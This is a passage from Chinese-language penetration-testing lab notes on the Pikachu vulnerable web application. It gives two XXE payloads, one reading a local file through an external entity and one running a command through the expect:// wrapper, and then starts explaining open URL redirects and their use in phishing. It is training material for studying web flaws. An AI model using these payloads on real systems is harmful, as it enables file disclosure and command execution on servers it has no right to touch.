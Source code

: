 ![image](../../../img/渗透/实验/pikachu/70.png)

payload,请先确定目标路径有这个文件
```xml
<?xml version = "1.0"?>
<!DOCTYPE note [
<!ENTITY aaa SYSTEM "file:///c:/1.txt">]>
<name>&aaa;</name>
```

![image](../../../img/渗透/实验/pikachu/71.png)

在 linux 下还可以输入这样的 payload
```XML
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "expect://ifconfig">
]>
<x>&f;</x>
```

---

## URL 重定向

不安全的 url 跳转问题可能发生在一切执行了 url 地址跳转的地方。
如果后端采用了前端传进来的(可能是用户传参,或者之前预埋在前端页面的 url 地址)参数作为了跳转的目的地,而又没有做判断的话
就可能发生"跳错对象"的问题。

url跳转比较直接的危害是: 钓鱼,既攻击者使用漏洞方的域名(比如一个比较出名的公司域名往往会让用户放心的点击)做掩盖,而最终跳转的确实钓鱼网站,一般的流程是,跳转漏洞-->钓鱼页面-->提交用户名密码-->跳转回来
